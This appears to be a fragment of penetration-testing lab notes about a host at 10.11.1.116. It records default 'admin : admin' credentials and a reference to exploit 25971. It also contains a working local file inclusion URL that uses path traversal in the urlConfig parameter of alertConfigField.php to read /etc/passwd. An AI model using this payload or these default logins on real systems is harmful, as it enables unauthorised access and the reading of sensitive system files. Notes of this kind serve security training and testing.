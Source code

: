admin : admin
LFI:
exploit 25971
```
http://10.11.1.116/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
```
